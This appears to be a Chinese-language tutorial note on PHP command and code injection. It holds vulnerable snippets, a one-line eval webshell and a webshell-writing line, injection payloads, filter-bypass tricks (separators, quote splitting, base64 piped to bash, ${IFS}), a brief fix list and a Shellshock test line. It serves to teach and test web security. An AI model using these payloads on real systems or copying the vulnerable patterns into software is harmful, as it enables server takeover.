 ```yaml
---
title: 命令注入漏洞
---
```

# 命令注入漏洞

> 代码执行：可执行脚本语言代码
>
> 命令执行：可执行系统(Linux、windows)命令

# PHP敏感函数代码执行

```php
eval()		//把字符串作为PHP代码执行
assert()	//检查一个断言是否为 FALSE，可用来执行代码
preg_replace()	//执行一个正则表达式的搜索和替换
call_user_func()//把第一个参数作为回调函数调用
call_user_func_array()//调用回调函数，并把一个数组参数作为回调函数的参数
array_map()		//为数组的每个元素应用回调函数 
```

**eval：**

```php
<?php @eval($_POST["arg"])?>
```

eval函数会将提交上来的值作为PHP代码处理，可以提交phpinfo(); 或者生成一句话shell

```php
fputs(fopen('shell.php','w+'),'<?php @eval($_POST[pass])?>');
```

**preg_replace：(5.5版本以上已废弃/e修饰符)**

```php
<?php preg_replace("//e",$_GET['arg'],"start testing...");?>
```

当replacement 参数构成一个合理的php代码字符串的时候，/e 修正符将参数当做php代码执行

**create_function:**

```php
<?php $test=$_GET["test"];$new_func=create_function('$a,$b', $test);$new_func(2,M_E);?>
```

在php 中使用create_function创建一个匿名函数（lambda-style） 如未对参数进行严格的过滤审查，可以通过提交特殊字符串给create_function执行任意代码.

**使用${${ }}简单绕过：**

```php
<?php $str="echo \"Hello ".$_GET["arg"]."!!\"; ";eval($str);?>
```

代码使用反斜杠将echo后面的内容给转义了 与加addslashes()函数进行过滤是一样的 payload：`arg=${${phpinfo()}}`

# [PHP程序执行函数](https://www.php.net/manual/zh/ref.exec.php) 

```php
system()		//执行外部程序，并且显示输出
exec()			//执行一个外部程序
shell_exec()	//通过 shell 环境执行命令，并且将完整的输出以字符串的方式返回
passthru()		//执行外部程序并且显示原始输出
pcntl_exec()	//在当前进程空间执行指定程序
popen()			//打开进程文件指针
proc_open()		//执行一个命令，并且打开用来输入/输出的文件指针
```

最简单的例子：

```
<?php $test = $_GET['cmd']; system($test); ?>
```

payload：`?cmd=whoami`  这样即可执行系统命令

**举一个类似DVWA里边的例子：**

```
<?php$test = $_GET['cmd'];system("ping -c 3 " . $test);?>
```

payload：`?cmd=127.0.0.1;whoami`

## **命令分隔符：**

**在Linux上**，上面的 ; 也可以用 |、|| 代替

> ;前面的执行完执行后面的
>
> |是管道符，显示后面的执行结果
>
> ||当前面的执行出错时执行后面的
>
> 可用**%0A**换行执行命令



**在Windows上**，不能用 ; 可以用&、&&、|、||代替

>  &前面的语句为假则直接执行后面的
>
>  &&前面的语句为假则直接出错，后面的也不执行
>
>  |直接执行后面的语句
>
> ||前面出错执行后面的

PHP 支持一个执行运算符：反引号（``） PHP 将尝试将反引号中的内容作为 shell 命令来执行，并将其输出信息返回

```php
 <?php echo `whoami`;?>
```

效果与函数 shell_exec() 相同，都是以字符串的形式返回一个命令的执行结果，可以保存到变量中

# 命令执行绕过技巧

**正则审查**

> 是否使用多行模式修饰符（/foo/m）
>
> 是否遗漏匹配对象末尾的换行符（/^\d+$/）
>
> 是否允许空白字符（\s）
>
> 是否误写反斜杠匹配模式（/\\/） 

可用**%0A**换行执行命令，换行符自身是一个有效的**目录分隔符** 

```bash
cat 123/flag
cat 123%0A flag
```

**黑名单绕过**

```php
<?php
$test = $_GET['cmd'];
$test = str_replace("cat", "", $test);
$test = str_replace("ls", "", $test);
$test = str_replace(" ", "", $test);
$test = str_replace("pwd", "", $test);
$test = str_replace("wget", "", $test);
var_dump($test);
system("ls -al '$test'");
?>
```

**shell特殊变量：**ca$1t、ca$@t fla$@g 

**单引号、双引号：** c""at、ca''t、**反斜线** c\at

**base64编码：**`echo "Y2F0IGZsYWc="|base64 -d|bash`、**Hex编码：** echo "63617420666c6167" | xxd -r -p|bash 

**利用变量：** 执行ls命令： a=l;b=s;$a$b	**cat 1.php文件内容：** a=c;b=at;c=1.php;$a$b ${c}



**绕过空格** 

> 用**${IFS}**代替
>
> 读取文件的时候利用重**定向符cat<flag**
>
> 花括号无空格**{cat,666.txt}** 

$IFS可截断后边的内容，cat flag$IFS666.txt

**长度限制**，通过构造文件来绕过

> linux下可以用 1>a创建文件名为a的空文件
> ls -t>test则会将目录按时间排序后写进test文件中
> sh命令可以从一个文件中读取命令来执行

**引号逃逸**

恶意命令被扩在引号内，可用 \ 转义引号逃逸

# 修复方式

> 1、尽量不要使用以上的代码/命令执行函数
>
> 2、使用disable_funtion()禁用以上函数
>
> 3、过滤所有能当作命令分隔符使用的字符

# 相关的漏洞

[bash破壳漏洞](https://github.com/Medicean/VulApps/tree/master/b/bash)

> 验证：env x='() { :;}; echo vulnerable' bash -c "echo this is a test"  

Struts2远程命令执行 ([VulApps](https://github.com/Medicean/VulApps/tree/master/s/struts2)，[Vulhub](https://vulhub.org/#/environments/struts2/s2-057/))